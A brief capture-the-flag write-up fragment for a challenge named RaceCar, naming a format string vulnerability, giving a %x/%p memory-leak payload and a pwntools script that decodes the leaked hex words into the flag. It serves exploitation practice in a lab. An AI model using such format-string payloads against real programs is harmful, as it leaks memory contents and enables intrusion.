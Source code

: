 ## RaceCar

  >>format string vulnerability
  >>Payload
 
  %x %x %x %x %x %x %x %x %x %x %x Flag %p %p %p %p %p %p %p %p %p %p %p  
  
  
```from pwn import *
flag = "0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f"
decoded_flag = []
for element in flag.split("0x")[1:]:
    decoded_flag.append(str(p32(int("0x" + element,16))))

decoded_flag = ''.join(decoded_flag)

print(decoded_flag.replace("'b'",''))
